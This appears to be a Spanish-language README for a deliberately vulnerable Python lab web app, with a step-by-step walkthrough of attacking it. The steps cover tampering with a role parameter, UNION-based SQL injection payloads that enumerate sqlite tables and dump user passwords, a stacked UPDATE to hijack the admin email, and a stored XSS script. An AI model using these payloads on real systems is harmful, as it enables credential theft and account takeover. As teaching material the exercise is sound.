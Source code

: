Python version 3.12.3

Install dependencies: pip3 install -r requirements.txt

Run: py app.py

---

1. Entrar a la ruta /posts y cambiar el query param role por 'admin', lo cual habilita un campo filtro
2. Inyectar sql en este campo filtro.

   - Acá probamos con una sola columna, nos dicen que faltan más y vamos probando con más hasta que encontramos que son 3, ya que cambia de error
   - ' UNION ALL SELECT name FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla, name as ble FROM sqlite_master WHERE type='table'--
   - Acá nos dice que hay un error que dice que necesitamos un valor entero, entonces vamos probando columna por columna para ver cual es la columna que debe ser un entero
   - ' UNION ALL SELECT name, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, 77 as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT 66, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--

   - Ahora, teniendo el nombre de la tabla, queremos descubrir los nombres de los campos (users, posts y comments)
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'users' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'posts' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'commnets' --

   - Con toda la informacion previa, podemos ver la información de las tablas
   - ' UNION ALL SELECT id, username || ' ' || email || ' ' || role, password FROM 'users' --
   - ' UNION ALL SELECT id, title, content FROM 'posts' --
   - ' UNION ALL SELECT id, content, post_id FROM 'comments' --

   - En el mismo campo, intentamos buscar la forma de cambiar el mail, pero no nos permite, ya que se ejecuta solo una consulta a la vez
   - s' ); UPDATE users SET email='my_email' WHERE username='admin'; --

   - Buscamos otros campos donde poder injectar sql. Encontramos que los posts tienen un campo texto, que permite esta injeccion
   - s' ); UPDATE users SET email='`<un_mail>`' WHERE username='admin'; --

3. ' UNION ALL SELECT 10 as id, sql AS content, '-' as title from sqlite_schema where name = 'users' --
4. Logeado como admin, crear un post con contenido malicioso. Ejemplo de contenido: <script>alert('alerta xss')</script>
